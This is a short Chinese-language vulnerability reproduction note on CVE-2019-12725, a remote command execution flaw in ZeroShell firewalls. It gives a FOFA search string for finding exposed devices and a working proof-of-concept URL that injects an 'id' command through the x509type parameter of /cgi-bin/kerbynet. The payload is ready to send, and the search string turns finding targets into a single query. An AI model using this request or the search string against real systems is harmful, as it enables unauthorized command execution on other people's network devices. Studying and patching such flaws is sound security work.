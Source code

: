 # ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

> [!NOTE]
>
> ZeroShell < 3.9.0

## FOFA

> [!NOTE]
>
> app="Zeroshell-防火墙"

## 漏洞复现

登录页面如下

![](image/zm-2.png)

验证的POC为

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```

![](image/zm-1.png)
